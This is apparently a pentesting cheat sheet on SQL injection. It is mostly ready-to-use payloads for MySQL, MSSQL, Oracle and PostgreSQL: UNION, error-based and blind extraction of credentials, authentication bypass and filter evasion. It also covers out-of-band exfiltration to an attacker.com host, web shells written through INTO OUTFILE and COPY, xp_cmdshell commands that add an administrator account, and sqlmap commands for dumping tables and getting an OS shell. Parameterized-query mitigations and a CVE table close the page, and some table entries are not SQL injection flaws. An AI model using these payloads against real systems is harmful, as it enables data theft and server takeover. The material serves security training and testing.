

# SQL Injection

> **SQL injection tricks a database into running commands an attacker wrote by slipping malicious SQL code into fields the app uses to build queries.**

---

## 🧠 What Is It? (Beginner Explanation)

A web app builds a SQL query using your input:

```sql
SELECT * FROM users WHERE username = 'alice' AND password = 'secret';
```

If you type `' OR '1'='1` as the username, the query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '...';
```

`'1'='1'` is always true → every row matches → you're authenticated as the first user (often admin). That's SQL injection.

---

## 🏗️ How It Works (Technical Deep Dive)

### SQL Fundamentals for Pentesters

```sql
-- Selection
SELECT column1, column2 FROM table WHERE condition;
SELECT * FROM users WHERE id = 1;

-- Union (combine result sets - must have same column count & types)
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;

-- Comments (end rest of query)
-- MySQL/MSSQL: --
-- MySQL: #
-- MySQL/PostgreSQL: /* ... */

-- String concatenation
-- MySQL: CONCAT(a, b) or 'a' 'b'
-- MSSQL: a + b
-- Oracle: a || b
-- PostgreSQL: a || b

-- Version
-- MySQL: VERSION() or @@version
-- MSSQL: @@version
-- Oracle: v$version
-- PostgreSQL: version()

-- Sleep/delay
-- MySQL: SLEEP(5)
-- MSSQL: WAITFOR DELAY '0:0:5'
-- Oracle: dbms_pipe.receive_message('a', 5)
-- PostgreSQL: pg_sleep(5)
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### SQLi Types at a Glance

| Type | Oracle | MySQL | MSSQL | PostgreSQL |
|------|--------|-------|-------|------------|
| Version | `v$version` | `@@version` | `@@version` | `version()` |
| Current DB | `SELECT ora_database_name FROM dual` | `database()` | `db_name()` | `current_database()` |
| Current User | `user` | `user()` | `user_name()` | `current_user` |
| List DBs | `all_users` | `information_schema.schemata` | `sysdatabases` | `pg_database` |
| List Tables | `all_tables` | `information_schema.tables` | `information_schema.tables` | `information_schema.tables` |
| List Columns | `all_tab_columns` | `information_schema.columns` | `information_schema.columns` | `information_schema.columns` |
| String concat | `'a'\|\|'b'` | `CONCAT('a','b')` | `'a'+'b'` | `'a'\|\|'b'` |
| Substring | `SUBSTR('abc',1,1)` | `SUBSTRING('abc',1,1)` | `SUBSTRING('abc',1,1)` | `SUBSTRING('abc',1,1)` |
| Sleep | `dbms_pipe.receive_message(('a'),5)` | `SLEEP(5)` | `WAITFOR DELAY '0:0:5'` | `pg_sleep(5)` |
| Comment | `--` | `-- ` or `#` | `--` | `--` |

---

## 🔴 Attack Surface & Exploitation

### Step 1: Confirm Injection Point

```sql
-- Classic string injection test
' 
''
`
')
"))
'))

-- Arithmetic (if numeric parameter)
1+1        -- should return same as 2
1-1        -- should return 0 results if id=0 doesn't exist
1*1
```

### Step 2: UNION-Based Extraction

**Find number of columns (ORDER BY method):**
```sql
-- Increment until error
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--    -- error here means 3 columns exist
```

**Find number of columns (UNION NULL method):**
```sql
-- Add NULLs until no error
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

**Find string columns (replace NULL with 'a'):**
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

**Extract version:**
```sql
-- MySQL
' UNION SELECT NULL,@@version,NULL--

-- MSSQL
' UNION SELECT NULL,@@version,NULL--

-- Oracle (must use FROM dual)
' UNION SELECT NULL,banner,NULL FROM v$version--

-- PostgreSQL
' UNION SELECT NULL,version(),NULL--
```

**Extract database names:**
```sql
-- MySQL
' UNION SELECT NULL,schema_name,NULL FROM information_schema.schemata--

-- MSSQL
' UNION SELECT NULL,name,NULL FROM master..sysdatabases--

-- PostgreSQL
' UNION SELECT NULL,datname,NULL FROM pg_database--

-- Oracle
' UNION SELECT NULL,owner,NULL FROM all_tables--
```

**Extract table names:**
```sql
-- MySQL / PostgreSQL / MSSQL
' UNION SELECT NULL,table_name,NULL FROM information_schema.tables WHERE table_schema=database()--

-- Oracle
' UNION SELECT NULL,table_name,NULL FROM all_tables--
```

**Extract column names:**
```sql
-- MySQL
' UNION SELECT NULL,column_name,NULL FROM information_schema.columns WHERE table_name='users'--

-- Oracle
' UNION SELECT NULL,column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--
```

**Extract actual data:**
```sql
-- MySQL / PostgreSQL
' UNION SELECT NULL,CONCAT(username,':',password),NULL FROM users--

-- Oracle
' UNION SELECT NULL,username||':'||password,NULL FROM users--

-- MSSQL
' UNION SELECT NULL,username+':'+password,NULL FROM users--
```

### Step 3: Error-Based Extraction (MySQL)

```sql
-- ExtractValue - error message contains our data
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT database()), 0x7e))--
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1), 0x7e))--

-- UpdateXML
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT database()), 0x7e), 1)--
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT user()), 0x7e), 1)--

-- PostgreSQL
' AND 1=CAST((SELECT version()) AS INTEGER)--
-- Returns: invalid input syntax for integer: "PostgreSQL 14.2..."
```

### Step 4: Boolean-Based Blind

No results visible, but behavior changes based on true/false.

```sql
-- Test true condition (normal response)
' AND 1=1--

-- Test false condition (empty/different response)
' AND 1=2--

-- Extract data character by character
-- Does the first char of database name have ASCII value > 109?
' AND ASCII(SUBSTRING(database(),1,1)) > 109--
' AND ASCII(SUBSTRING(database(),1,1)) > 116--
' AND ASCII(SUBSTRING(database(),1,1)) > 113--
' AND ASCII(SUBSTRING(database(),1,1)) = 115--  -- 's'

-- Does the database name start with 's'?
' AND SUBSTRING(database(),1,1) = 's'--

-- Get length of database name
' AND LENGTH(database()) > 5--
' AND LENGTH(database()) = 8--

-- Full example - extract username from users table
' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 0,1) = 'a'--
' AND (SELECT SUBSTRING(username,2,1) FROM users LIMIT 0,1) = 'd'--
```

### Step 5: Time-Based Blind

No visible response difference, but server delays indicate true.

```sql
-- MySQL
' AND SLEEP(5)--              -- always sleeps
' AND IF(1=1, SLEEP(5), 0)-- -- conditional sleep (true)
' AND IF(1=2, SLEEP(5), 0)-- -- no sleep (false)

-- Extract data via timing
' AND IF(ASCII(SUBSTRING(database(),1,1))=115, SLEEP(5), 0)-- 

-- MSSQL
'; WAITFOR DELAY '0:0:5'--
'; IF (1=1) WAITFOR DELAY '0:0:5'--
'; IF (SELECT COUNT(*) FROM users) > 0 WAITFOR DELAY '0:0:5'--

-- PostgreSQL
'; SELECT pg_sleep(5)--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- Oracle
' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',5)--
' AND 1=(SELECT CASE WHEN (1=1) THEN TO_CHAR(DBMS_PIPE.RECEIVE_MESSAGE('a',5)) ELSE '1' END FROM dual)--
```

### Out-of-Band SQLi

Useful when blind techniques are too slow or unreliable.

```sql
-- MySQL - DNS exfiltration via LOAD_FILE with UNC path (Windows)
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share\\'))--

-- MSSQL - DNS exfiltration
'; EXEC master..xp_dirtree '\\' + (SELECT TOP 1 name FROM master..sysdatabases) + '.attacker.com\a'--

-- Oracle - HTTP exfiltration via UTL_HTTP
' UNION SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT user FROM dual)) FROM dual--

-- Oracle - DNS via UTL_INADDR
' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT user FROM dual)||'.attacker.com') FROM dual--

-- PostgreSQL - DNS via dblink
'; SELECT dblink_send_query('host='||(SELECT current_user)||'.attacker.com dbname=a', 'SELECT 1')--
```

---

## 💥 Payloads & Examples

### Authentication Bypass

```sql
-- Classic
' OR '1'='1
' OR '1'='1'--
' OR 1=1--
' OR 1=1#
admin'--
admin' #
' OR 'x'='x
') OR ('1'='1

-- With comment variations
'/**/OR/**/1=1--
' /*!OR*/ 1=1--

-- MSSQL admin bypass
' OR 1=1--
'; EXEC xp_cmdshell('dir')--
```

### Stacked Queries

```sql
-- Works in: MSSQL, PostgreSQL (sometimes), MySQL (with multi_query)
-- NOT in Oracle

-- MSSQL
'; SELECT * FROM users--
'; INSERT INTO admin(username,password) VALUES('hacker','pwned')--

-- PostgreSQL  
'; CREATE TABLE cmd_exec(cmd_output TEXT)--
'; COPY cmd_exec FROM PROGRAM 'id'--
'; SELECT * FROM cmd_exec--

-- MySQL (only with multi_query enabled in PHP)
'; SELECT 1,2,3--
```

### Filter Bypass Techniques

```sql
-- Whitespace bypass
/**/SELECT/**/1
SELECT%09id%09FROM%09users     -- Tab
SELECT%0aFROM%0ausers          -- Newline
SELECT%0dFROM%0dusers          -- Carriage return

-- Case variation
SeLeCt * FrOm UsErS
sElEcT * fRoM uSeRs

-- Comment-based bypass
UN/**/ION SEL/**/ECT
UNION/*!50000SELECT*/

-- Inline comment
SELECT /*!version*/
SELECT /*!32302 username*/ FROM users

-- Double URL encode
%2527 → %27 → '
UNION → %%55NION → UNION

-- Keywords concatenation (MySQL)
-- If 'OR' is filtered:
||
-- If 'UNION' filtered:
UNUNIONION  (if filter strips 'UNION' once)

-- Hex encoding strings
' UNION SELECT 0x61646d696e--   -- 0x61646d696e = 'admin'

-- Base64 (if app decodes before query)
-- Not a SQL technique, but if middleware decodes:
' UNION SELECT TO_BASE64(password) FROM users--
```

---

## 🗄️ SQL Injection to OS Command Execution

### MySQL: File Read and Write

```sql
-- Read file (requires FILE privilege)
' UNION SELECT NULL, LOAD_FILE('/etc/passwd'), NULL--
' UNION SELECT NULL, LOAD_FILE('/var/www/html/config.php'), NULL--

-- Write webshell (requires write permission to web root)
' UNION SELECT NULL, '<?php system($_GET["cmd"]); ?>', NULL INTO OUTFILE '/var/www/html/shell.php'--

-- Access shell
# curl "http://target.com/shell.php?cmd=id"
```

### MSSQL: xp_cmdshell

```sql
-- Check if xp_cmdshell is enabled
EXEC master..xp_cmdshell 'whoami'

-- Enable xp_cmdshell (requires sysadmin)
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE;--
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

-- Execute OS commands
'; EXEC xp_cmdshell 'whoami'--
'; EXEC xp_cmdshell 'net user hacker Pass123! /add'--
'; EXEC xp_cmdshell 'net localgroup administrators hacker /add'--

-- Exfil via DNS
'; EXEC xp_cmdshell 'nslookup %COMPUTERNAME%.attacker.com'--

-- Reverse shell via xp_cmdshell
'; EXEC xp_cmdshell 'powershell -e BASE64_ENCODED_PAYLOAD'--
```

### PostgreSQL: COPY and Program Execution

```sql
-- Execute OS command and read output (PostgreSQL 9.3+, superuser required)
'; COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec--

-- Full sequence
'; CREATE TABLE IF NOT EXISTS cmd_exec(cmd_output TEXT)--
'; COPY cmd_exec FROM PROGRAM 'id'--
'; SELECT cmd_output FROM cmd_exec--
'; DROP TABLE cmd_exec--

-- Read file
'; COPY cmd_exec FROM '/etc/passwd'--
'; SELECT * FROM cmd_exec--

-- Write file
'; COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'--
```

### User-Defined Functions (UDF) for MySQL RCE

```bash
# sqlmap can automate UDF injection
sqlmap -u "http://target.com/?id=1" --os-shell

# Manual UDF:
# 1. Compile a shared library (.so on Linux, .dll on Windows)
# 2. Upload it via LOAD_FILE/INTO DUMPFILE
# 3. CREATE FUNCTION sys_exec RETURNS INT SONAME 'udf.so'
# 4. SELECT sys_exec('id')
```

---

## 🔧 Second-Order SQLi

The payload is stored safely, then unsafely used later.

```
Step 1: Register with username: admin'--
        App correctly escapes it for INSERT: INSERT INTO users VALUES('admin''--', ...)
        Stored in DB as: admin'--

Step 2: Change password function does:
        SELECT * FROM users WHERE username = '$username'
        But $username is read from DB WITHOUT re-escaping: admin'--
        
Final query: SELECT * FROM users WHERE username = 'admin'--'
This selects the admin user. Attacker changes admin's password.
```

---

## 🛠️ Tools & Commands

### sqlmap

```bash
# Basic detection and extraction
sqlmap -u "http://target.com/page?id=1"

# Enumerate databases
sqlmap -u "http://target.com/page?id=1" --dbs

# Enumerate tables in database
sqlmap -u "http://target.com/page?id=1" -D targetdb --tables

# Enumerate columns
sqlmap -u "http://target.com/page?id=1" -D targetdb -T users --columns

# Dump table
sqlmap -u "http://target.com/page?id=1" -D targetdb -T users --dump

# POST request
sqlmap -u "http://target.com/login" --data="username=test&password=test"

# With cookies (authenticated)
sqlmap -u "http://target.com/page?id=1" --cookie="session=abc123"

# Test specific parameter
sqlmap -u "http://target.com/page?id=1&name=test" -p name

# Use Burp request file
sqlmap -r request.txt

# Technique flags
sqlmap -u "URL" --technique=BEUSTQ
# B=boolean, E=error, U=union, S=stacked, T=time, Q=inline

# OS shell
sqlmap -u "URL" --os-shell

# File read
sqlmap -u "URL" --file-read="/etc/passwd"

# File write
sqlmap -u "URL" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# WAF bypass with tamper scripts
sqlmap -u "URL" --tamper=space2comment
sqlmap -u "URL" --tamper=between,randomcase,space2comment
sqlmap -u "URL" --tamper=charencode        # URL encode
sqlmap -u "URL" --tamper=base64encode      # base64
sqlmap -u "URL" --tamper=equaltolike       # = to LIKE
sqlmap -u "URL" --tamper=greatest          # = to GREATEST()

# HTTP headers
sqlmap -u "URL" --headers="X-Forwarded-For: *"
sqlmap -u "URL" -H "User-Agent: *"

# Blind with custom string difference
sqlmap -u "URL" --string="Welcome"    # true page contains this
sqlmap -u "URL" --not-string="Error"  # false page contains this

# Increase threads/level
sqlmap -u "URL" --level=5 --risk=3 --threads=10

# Proxy through Burp
sqlmap -u "URL" --proxy="http://127.0.0.1:8080"
```

### ghauri (Advanced SQLi tool)

```bash
pip3 install ghauri
ghauri -u "http://target.com/?id=1" --dbs
ghauri -u "http://target.com/?id=1" --technique=T --time-sec=3
```

---

## 🔍 Detection

### Manual Detection

```
1. Enter single quote (') → observe error or change in behavior
2. Enter 1=1 vs 1=2 → compare responses
3. Enter sleep/delay → observe response time
4. Check error messages for DB stack traces
```

### Error Messages That Reveal DB Type

```
MySQL:    "You have an error in your SQL syntax..."
          "Warning: mysql_fetch_array()"
MSSQL:    "Unclosed quotation mark..."
          "Microsoft OLE DB Provider for SQL Server error"
Oracle:   "ORA-01756: quoted string not properly terminated"
PostgreSQL: "ERROR: unterminated quoted string at or near..."
```

---

## 🛡️ Mitigation

### Parameterized Queries (Prepared Statements)

```python
# Python with sqlite3 - SAFE
import sqlite3
conn = sqlite3.connect('db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))

# Python with SQLAlchemy ORM - SAFE
user = db.session.query(User).filter_by(username=username, password=password).first()
```

```php
// PHP PDO Prepared Statement - SAFE
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);

// PHP MySQLi - SAFE
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

```java
// Java PreparedStatement - SAFE
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM users WHERE username = ? AND password = ?");
stmt.setString(1, username);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();
```

```javascript
// Node.js with mysql2 - SAFE
const [rows] = await connection.execute(
  'SELECT * FROM users WHERE username = ? AND password = ?',
  [username, password]
);
```

### Additional Defenses

```
1. Use ORM (Hibernate, SQLAlchemy, ActiveRecord) - handles parameterization
2. Least privilege - app DB user should NOT have FILE, EXECUTE, DROP privileges
3. WAF as defense-in-depth (not primary defense)
4. Input validation - reject unexpected chars for numeric fields
5. Error handling - don't expose DB errors to users
6. Stored procedures (if parameterized internally)
```

---

## 📋 Real CVE Examples

| CVE | Application | Type | Impact |
|-----|-------------|------|--------|
| CVE-2019-9978 | WordPress Social Warfare plugin | SQLi | Unauthenticated SQLi → RCE |
| CVE-2022-21661 | WordPress core < 5.8.3 | SQLi via WP_Query | Data exfiltration |
| CVE-2023-23752 | Joomla 4.0.0-4.2.7 | Auth bypass + SQLi | Full compromise |
| CVE-2021-24666 | WP Fastest Cache plugin | SQLi | Auth bypass |
| CVE-2018-7600 | Drupal 7.x / 8.x | Multiple (Drupalgeddon) | RCE |
| CVE-2020-5902 | F5 BIG-IP | SQLi + RCE | Full system compromise |

---

## 📚 References

- [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PayloadsAllTheThings SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [sqlmap documentation](https://sqlmap.org/)
- [HackTricks SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PentestMonkey MySQL Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
